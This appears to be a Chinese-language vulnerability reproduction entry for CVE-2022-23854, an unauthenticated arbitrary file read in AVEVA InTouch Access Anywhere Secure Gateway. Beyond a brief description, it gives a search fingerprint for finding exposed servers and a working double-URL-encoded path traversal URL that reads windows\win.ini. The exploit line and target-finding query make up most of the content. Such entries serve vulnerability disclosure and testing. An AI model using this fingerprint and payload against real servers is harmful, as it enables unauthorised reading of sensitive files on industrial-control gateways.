

# AVEVA InTouch安全网关 AccessAnywhere 任意文件读取漏洞 CVE-2022-23854

## 漏洞描述

AVEVA InTouch Access Anywhere Secure Gateway 2020 R2及以前的版本存在路径遍历漏洞，未授权的攻击者可利用该漏洞获取服务器敏感信息。

## 漏洞影响

<a-checkbox checked>AVEVA InTouch安全网关</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="InTouch Access Anywhere"</a-checkbox></br>

## 漏洞复现

登录页面


验证POC

```sql
/AccessAnywhere/%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255cwindows%255cwin.ini 
```

